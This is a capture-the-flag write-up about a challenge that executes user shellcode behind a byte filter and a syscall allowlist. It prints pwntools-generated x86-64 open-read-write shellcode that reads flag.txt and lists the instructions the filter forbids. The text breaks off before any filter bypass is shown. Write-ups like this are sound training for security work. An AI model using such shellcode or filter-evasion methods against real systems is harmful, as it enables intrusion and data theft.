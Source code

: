 ![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/e39f705f-300d-45fd-ac86-2469ef431e36)

We give the program a shellcode, and if it bypasses a filter it will run it.

![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/5d552787-bd1a-4feb-b1e7-88c42192e74e)

![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/fac8b584-c84e-4ab3-8639-f3a7569e8967)

the filter basiclly disallows any shellcode which contains the bytes 0xcd,0x80,0xf,0x5,0x89 and 0.

The program also disallows all of the syscalls besides those syscalls:

![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/509673a1-f611-42d6-9e5e-12e039b8f832)

So we can't just pop a shell, we'll need to make a shellcode which does open-read-write to the flag.

First of all, lets ignore the filter. I let pwntools to create my open-read-write shellcode, and it created this:

```asm
   0:   6a 01                   push   0x1
   2:   fe 0c 24                dec    BYTE PTR [rsp]
   5:   48 b8 66 6c 61 67 2e 74 78 74   movabs rax, 0x7478742e67616c66
   f:   50                      push   rax
  10:   48 8d 3c 24             mov    rdi, rsp
  14:   31 d2                   xor    edx, edx
  16:   31 f6                   xor    esi, esi
  18:   6a 02                   push   0x2
  1a:   58                      pop    rax
  1b:   0f 05                   syscall 
  1d:   48 89 c7                mov    rdi, rax
  20:   31 c0                   xor    eax, eax
  22:   6a 50                   push   0x50
  24:   5a                      pop    rdx
  25:   48 89 e6                mov    rsi, rsp
  28:   0f 05                   syscall 
  2a:   6a 01                   push   0x1
  2c:   5f                      pop    rdi
  2d:   48 89 c2                mov    rdx, rax
  30:   48 89 e6                mov    rsi, rsp
  33:   6a 01                   push   0x1
  35:   58                      pop    rax
  36:   0f 05                   syscall

```

we can see that there are just a few instruction which are forbidden:
```
mov    rdi, rsp
mov    rdi, rax
mov    rdx, rax
syscall
```
now we'll have to find a way to do their functionillty differently.
